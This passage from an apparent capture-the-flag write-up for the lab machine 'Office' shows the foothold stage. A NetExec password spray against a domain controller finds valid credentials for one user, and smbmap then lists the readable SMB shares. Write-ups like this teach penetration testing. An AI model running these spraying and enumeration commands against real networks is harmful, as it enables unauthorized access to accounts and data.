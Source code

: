 ## Foothold
### Access as Dwolfe
By performing a password spraying attack using [NetExec](https://github.com/Pennyw0rth/NetExec) we gain access to the domain with the `dwolfe` account. 

```console
$ cat ad_users.txt
Administrator
ewhite
dmichael
dwolfe
tstark
hhogan
ppotts

$ nxc smb office.htb -u ad_users.txt -p 'H0lOgrams4reTakIng0Ver754!' --continue-on-success
SMB         10.10.11.3      445    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:office.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.3      445    DC               [-] office.htb\Administrator:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE
SMB         10.10.11.3      445    DC               [-] office.htb\ewhite:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE
SMB         10.10.11.3      445    DC               [-] office.htb\dmichael:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE
SMB         10.10.11.3      445    DC               [+] office.htb\dwolfe:H0lOgrams4reTakIng0Ver754!
SMB         10.10.11.3      445    DC               [-] office.htb\tstark:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE
SMB         10.10.11.3      445    DC               [-] office.htb\hhogan:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE
SMB         10.10.11.3      445    DC               [-] office.htb\ppotts:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE
```

We explore the accessible shares, discovering a PCAP file that holds valuable information.

```console
$ smbmap -H 10.10.11.3 -u dwolfe -p 'H0lOgrams4reTakIng0Ver754!'
[*] Detected 1 hosts serving SMB
[*] Established 1 SMB connections(s) and 1 authenticated session(s)

[+] IP: 10.10.11.3:445	Name: office.htb          	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share
	SOC Analysis                                      	READ ONLY	
	SYSVOL                                            	READ ONLY	Logon server share
[*] Closed 1 connections
```

